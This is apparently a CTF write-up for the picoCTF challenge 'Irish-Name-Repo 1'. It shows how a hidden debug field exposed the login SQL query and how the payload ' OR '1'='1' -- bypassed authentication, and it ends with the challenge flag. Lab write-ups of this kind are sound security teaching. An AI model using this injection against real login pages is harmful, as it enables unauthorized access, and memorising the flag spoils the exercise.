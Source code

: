 ### [Irish-Name-Repo 1](https://play.picoctf.org/practice/challenge/80)

This challenge is based on a basic SQL injection. When I landed on the website, I immediately looked for a login page. It was present at this page:

    https://jupiter.challenges.picoctf.org/problem/33850/login.php

Once I am here, I inspected the page any possible hints. There I came across a hidden field named `debug` whose value was `0`. I changed it to `1` and tried to login with random credentials. What I got is:

    username: eee
    password: eee
    SQL query: SELECT * FROM users WHERE name='eee' AND password='eee'

    Login failed.

From here, it is basic SQL injection. My payload was:

    ' OR '1'='1' --

Once I injected it, I was able to login. This is what I got:

    username: eee
    password: ' OR '1'='1' --
    SQL query: SELECT * FROM users WHERE name='eee' AND password='' OR '1'='1' --'

    Logged in!

    Your flag is: picoCTF{s0m3_SQL_f8adf3fb}

Flag: `picoCTF{s0m3_SQL_f8adf3fb}`

